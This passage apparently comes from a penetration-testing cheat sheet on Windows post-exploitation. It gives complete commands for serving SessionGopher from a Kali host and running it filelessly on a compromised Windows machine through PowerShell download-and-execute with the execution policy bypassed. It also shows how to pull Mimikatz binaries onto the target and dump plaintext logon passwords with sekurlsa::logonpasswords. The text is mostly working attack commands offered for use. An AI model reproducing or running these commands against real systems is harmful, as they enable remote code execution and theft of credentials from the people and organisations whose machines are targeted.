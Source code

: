 ```
root@kali:~/tools/SessionGopher# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Finally we can file-lessly execute it from our remote Windows shell:
```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/SessionGopher.ps1')); Invoke-SessionGopher -Thorough"
```
Or from a Windows Powershell:
```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/SessionGopher.ps1')
```
Or we can download and run it:
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/SessionGopher.ps1\", \"C:\\Users\\Public\\Downloads\\SessionGopher.ps1\");
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "& { . .\SessionGopher.ps1; Invoke-SessionGopher -Thorough}"
```
## Running Mimikatz
Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of plaintext credentials from memory, password hashes from local SAM/NTDS.dit databases, advanced Kerberos functionality, and more.  
https://github.com/gentilkiwi/mimikatz  

### Running traditional (binary) Mimikatz
The original and most frequently updated version of Mimikatz is the binary executable which can be found here:  
https://github.com/gentilkiwi/mimikatz/releases  

First we will need to download a Mimikatz binary and copy it to the remote machine
```
root@kali:~/test# wget https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip     
--2018-10-16 15:14:49--  https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip                     
root@kali:~/test# unzip mimikatz_trunk.zip
```
Now we will need to copy the 3 files (win32 or x64 depending on the OS) required to run Mimikatz to the remote server.
```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimidrv.sys\", \"C:\\Users\\Public\\Downloads\\mimidrv.sys\"); (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimikatz.exe\", \"C:\\Users\\Public\\Downloads\\mimikatz.exe\"); (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimilib.dll\", \"C:\\Users\\Public\\Downloads\\mimilib.dll\")"
```
Now, if we dont have an overly interactive shell, we will want to execute Mimikatz without the built in CLI by passing the correct parameters to the executable.  We use the log parameter to also log the clear password results to a file (just in case we are unable to see the output).
```
mimikatz log version "sekurlsa::logonpasswords" exit
```
Otherwise we can use the Mimikatz shell to get the passwords:
```
mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
```

